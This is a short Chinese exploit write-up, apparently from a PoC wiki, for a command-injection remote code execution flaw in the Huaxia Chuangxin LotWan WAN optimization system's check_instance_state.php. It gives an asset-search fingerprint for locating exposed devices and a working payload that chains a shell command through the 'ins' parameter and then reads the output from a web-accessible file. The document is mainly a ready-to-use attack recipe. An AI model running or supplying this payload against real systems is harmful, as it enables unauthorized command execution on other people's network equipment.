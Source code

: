 # 华夏创新 LotWan广域网优化系统 check_instance_state.php 远程命令执行漏洞

## 漏洞描述

华夏创新 LotWan广域网优化系统check_instance_state.php文件参数 ins存在命令拼接，导致远程命令执行漏洞

## 漏洞影响

<a-checkbox checked>华夏创新 LotWan广域网优化系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="LotWan 广域网优化系统"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1635942598942-6671fa50-5052-43f6-ab40-bf2c8403bdf8-20220314123637053.png)

存在漏洞的文件为

```php
/acc/check_instance_state.php?ins=;id>cmd.txt
```

再访问 `/acc/cmd.txt`

![img](/assets/PeiQi-Wiki/img/1635943074087-b483f989-38e9-43fd-8e94-6de93605d4a7.png)



若有收获，就点个赞吧